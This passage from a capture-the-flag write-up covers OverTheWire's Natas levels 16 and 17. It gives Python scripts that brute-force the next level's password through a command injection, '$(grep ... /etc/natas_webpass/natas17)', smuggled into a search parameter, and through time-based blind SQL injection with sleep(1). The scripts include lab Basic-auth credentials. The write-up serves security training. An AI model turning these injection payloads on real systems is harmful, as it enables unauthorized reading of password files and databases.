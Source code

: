 ```python
import requests

letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Authorization': 'Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==',
}

pwd = ''
for i in range(0,32):
    for l in letters:

        params = (
            ('needle', 'doomed$(grep ^' + pwd + l + ' /etc/natas_webpass/natas17)'),
            ('submit', 'Search'),
        )

        response = requests.get('http://natas16.natas.labs.overthewire.org/index.php', headers=headers, params=params)
        if 'doomed' not in response.text:
            pwd += l
            continue

print(pwd)
```

### [Natas 17]
`http://natas17.natas.labs.overthewire.org` \
Yet again a blind SQL injection. Main problem is, that we don't have any output helping us detecting whether our guess is right or wrong. Instead, we can use timing: if our guess is right, wait 1 seconds before answering. \
To achieve this behavior, we can use the following query: `username=natas18" and password like binary "' + pwd + l + '%" and sleep(1); #`. \
Thanks to lazy execution (as soon as the value is known the evaluation stops, meaning that as soon as a clause of an AND is false the evaluation stops) the query will sleep only if our guess is right.

```python
import requests
import time

letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Authorization': 'Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==',
}

pwd = ''
for i in range(0,32):
    for l in letters:
        data = 'username=natas18" and password like binary "' + pwd + l + '%" and sleep(1); #'
        start_time = time.time()
        response = requests.post('http://natas17.natas.labs.overthewire.org', headers=headers, data=data)
        elapsed_time = time.time() - start_time
        if elapsed_time > 1:
            pwd += l
            continue

print(pwd)
```

